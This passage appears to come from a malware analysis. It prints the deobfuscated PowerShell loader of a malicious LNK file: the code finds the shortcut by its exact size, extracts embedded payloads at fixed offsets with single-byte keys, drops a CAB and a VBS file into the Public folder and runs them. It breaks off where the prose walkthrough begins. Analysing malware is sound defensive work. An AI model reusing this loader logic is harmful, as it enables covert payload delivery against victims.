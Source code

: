 ```powershell
    $forth = researcher
    $deeply = vision -entrance $forth
    if ($deeply.length -eq 0) {
        $forth = reality
        $deeply = vision -entrance $forth
    }
    return $deeply
}

function chase {
    $house = $env:public + '\' + 'nearby.cab'
    return $house
}

function concentration {
    $accept = $env:public + '\documents\start.vbs'
    return $accept
}

function vision {
    param($entrance)
    $massive = ''
    [System.IO.Directory]::GetFiles($entrance, '*.lnk', [System.IO.SearchOption]::AllDirectories) |
    ForEach-Object {
        $era = [System.IO.FileInfo]::new($_)
        if ($era.Length -eq 0x00412D29) {
            $massive = $era.FullName
        }
    }
    return $massive
}

$tone = suicide
$pipe = similar -regulation $tone
$PM = sister -title $tone
stir -league $tone -mirror 0x00001F88 -winner 0x003D7292 -policy 0x71 -basket $PM
& $PM
$advise = chase
stir -league $tone -mirror 0x003D921A -winner 0x00013CCF -policy 0x70 -basket $advise
trend -suppose $tone
$east = would
room -acquire $advise -mainly $east
trend -suppose $advise
$permit = concentration
& $permit
" ) )
```

### What’s It Doing?

The LNK uses `cmd.exe` with a `/c` switch to run a command and vanish—like a ninja. It’s got this `for` loop hunting for `rshell.exe` in the PowerShell folder, then runs it with this massive script. Here’s the play-by-play, function by function:
